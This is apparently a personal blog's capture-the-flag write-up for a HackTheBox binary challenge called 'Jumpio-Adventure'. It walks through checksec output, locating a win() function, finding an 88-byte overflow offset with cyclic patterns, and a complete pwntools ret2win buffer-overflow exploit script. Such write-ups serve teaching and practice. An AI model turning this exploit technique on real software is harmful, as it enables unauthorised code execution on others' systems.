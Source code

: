 ```yaml
---
layout: post
title: "'Jumpio Adventure' CTF Writeup"
date: 2025-07-24 00:41:00 +0300
categories: [CTFs]
tags: [cybersecurity, reverse, hackthebox, prolabs, stacksmash]
---
```


# 🎰 Jumpio-Adventure CTF Writeup

In this writeup, I’ll walk you through how I solved the **Jumpio-Adventure** CTF binary challenge. This challenge is great for practicing **pwntools** and classic buffer overflow techniques. Let’s jump in!

---

## 📂 Inspecting the Zip File

The provided zip archive contains two files:

- `jumpios_adventure`: The main binary
- `flag`: A decoy file (not the real flag)

---

## 🧠 Initial Analysis

The binary is quite small, so I initially tried uploading it to [dogbolt](https://dogbolt.org) for a quick disassembly. However, I found that **Ghidra** provided a more readable decompilation and analysis experience.

---

## ⚠️ The Danger of `gets()`

Upon analyzing the binary, I noticed it uses the `gets()` function to read user input. This function is inherently unsafe because it doesn’t check for buffer boundaries, making the binary **vulnerable to buffer overflow** attacks. This is our potential attack vector.

---

## 🔐 Security Features Check

Next, we run `checksec` to understand the binary's memory protection features:

```sh
┌──(marius㉿marius)-[~/Desktop]
└─$ pwn checksec jumpios_adventure 
[*] '/home/marius/Desktop/jumpios_adventure'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
````

### Key Takeaways:

* ✅ **No stack canary**: Makes stack smashing possible.
* ✅ **No PIE**: Function addresses are static → easier exploitation.
* ✅ **NX enabled**: We can’t execute shellcode on the stack → but we can jump to existing functions like `win()`.
* ✅ **Not stripped**: Function symbols are available → makes identifying functions easier.

---

## 🎯 Finding the Target: `win()` Function

We search for the `win()` function in the symbol table:

```sh
┌──(marius㉿marius)-[~/Desktop]
└─$ nm jumpios_adventure | grep " win"
000000000040154f T win
```

The `win()` function is located at address `0x40154f`. Based on analysis, calling this function will print the flag using `cat flag.txt`.

<pre>{% raw %}
> [!WARNING]
> Although we’re referencing C code examples, you can identify similar patterns at the assembly level.
{% endraw %}</pre>

---

## 🎮 Understanding the Game Logic

When you run the binary, it starts a fight-style game. You begin with 10 damage points, and you can **drink potions** to increase your attack power. Once you defeat the enemy, you’re prompted to **enter your name**—this is where the vulnerable `gets()` is triggered.

### Exploitation Plan:

1. Start the fight.
2. Drink 5 potions to increase attack power.
3. Attack once (enemy dies).
4. When asked to enter your name, provide a crafted payload that overflows the buffer and jumps to `win()`.

---

## 🔍 Finding the Overflow Offset

We use `cyclic` patterns to find the exact point where our input overwrites the return address:

```sh
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa...
pwndbg> run
```

Once the program crashes, we identify the offset:

```bash
pwndbg> python -c "from pwn import *; print(cyclic_find('kaaa'))"
88
```

This tells us the return address is overwritten after 88 bytes of input. Perfect!

---

## 🧪 Final Exploit using Pwntools

Now that we have the offset and the target function address, we can craft our exploit:

```python
from pwn import *
import time

e = ELF('./jumpios_adventure')
r = remote("HOST", PORT)  # Replace with actual host and port

payload = b"A" * 88 + p64(e.sym.win)  # 88-byte padding + address of win()

# Navigating the game menu
r.sendlineafter(b'> ', b'1')  # Start Fight
for _ in range(5):
    r.sendlineafter(b'> ', b'4')  # Drink Potion
r.sendlineafter(b'> ', b'5')      # Show Options
r.sendlineafter(b'> ', b'1')      # Attack (Punch)

# Trigger the vulnerable input
r.sendlineafter(b'name: ', payload)

# Switch to interactive mode to catch the flag output
r.interactive()
```

---

## 🏁 Conclusion

Through this challenge, we practiced:

* Identifying unsafe functions (`gets`)
* Using `checksec` to evaluate binary protections
* Finding buffer overflow offsets with cyclic patterns
* Writing a working exploit using pwntools
* Hijacking program execution flow to trigger a hidden flag-revealing function

This kind of binary is perfect for beginners looking to understand real-world exploitation concepts in a CTF setting. Thanks for reading, and see you in the next writeup!

---

